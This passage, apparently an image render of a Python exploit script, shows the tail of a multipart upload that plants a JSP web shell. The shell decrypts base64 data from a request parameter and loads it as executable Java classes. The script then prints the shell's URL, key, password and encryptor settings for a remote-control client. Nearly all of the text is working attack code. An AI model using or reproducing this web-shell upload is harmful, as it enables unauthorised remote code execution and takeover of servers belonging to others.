 ```python
       "java.security.MessageDigest m;m = java.security.MessageDigest.getInstance(\"MD5\");m.update(s.getBytes(), 0, " \
       "s.length());ret = new java.math.BigInteger(1, m.digest()).toString(16).toUpperCase();} catch (Exception e) {" \
       "}return ret; } public static String base64Encode(byte[] bs) throws Exception {Class base64;String value = " \
       "null;try {base64=Class.forName(\"java.util.Base64\");Object Encoder = base64.getMethod(\"getEncoder\", " \
       "null).invoke(base64, null);value = (String)Encoder.getClass().getMethod(\"encodeToString\", new Class[] { " \
       "byte[].class }).invoke(Encoder, new Object[] { bs });} catch (Exception e) {try { base64=Class.forName(" \
       "\"sun.misc.BASE64Encoder\"); Object Encoder = base64.newInstance(); value = (String)Encoder.getClass(" \
       ").getMethod(\"encode\", new Class[] { byte[].class }).invoke(Encoder, new Object[] { bs });} catch (Exception " \
       "e2) {}}return value; } public static byte[] base64Decode(String bs) throws Exception {Class base64;byte[] " \
       "value = null;try {base64=Class.forName(\"java.util.Base64\");Object decoder = base64.getMethod(" \
       "\"getDecoder\", null).invoke(base64, null);value = (byte[])decoder.getClass().getMethod(\"decode\", " \
       "new Class[] { String.class }).invoke(decoder, new Object[] { bs });} catch (Exception e) {try { " \
       "base64=Class.forName(\"sun.misc.BASE64Decoder\"); Object decoder = base64.newInstance(); value = (byte[" \
       "])decoder.getClass().getMethod(\"decodeBuffer\", new Class[] { String.class }).invoke(decoder, new Object[] { " \
       "bs });} catch (Exception e2) {}}return value; }%><%try{byte[] data=base64Decode(request.getParameter(" \
       "pass));data=x(data, false);if (session.getAttribute(\"payload\")==null){session.setAttribute(\"payload\"," \
       "new X(this.getClass().getClassLoader()).Q(data));}else{request.setAttribute(\"parameters\"," \
       "data);java.io.ByteArrayOutputStream arrOut=new java.io.ByteArrayOutputStream();Object f=((" \
       "Class)session.getAttribute(\"payload\")).newInstance();f.equals(arrOut);f.equals(" \
       "pageContext);response.getWriter().write(md5.substring(0,16));f.toString();response.getWriter().write(" \
       "base64Encode(x(arrOut.toByteArray(), true)));response.getWriter().write(md5.substring(16));} }catch (" \
       "Exception e){}\r\n%>\r\n" \
       "------WebKitFormBoundaryNOyNFd8trb922Qzd--\r\n"
response = requests.post(Url, headers=Headers, data=Data)
# Output WebShell address and connection information.
Path = response.json()['url']
Url = "http://{Host}{Path}".format(Host=Host, Path=Path)
print("Web_Shell_Url:{Url}".format(Url=Url))
print("Web_Shell_Key:{Key}".format(Key="key"))
print("Web_Shell_Pass:{Pass}".format(Pass="pass"))
print("Web_Shell_Payload:{Payload}".format(Payload="JavaDynamicPayload"))
print("Web_Shell_Encryptor:{Encryptor}".format(Encryptor="JAVA_AES_BASE64"))
```
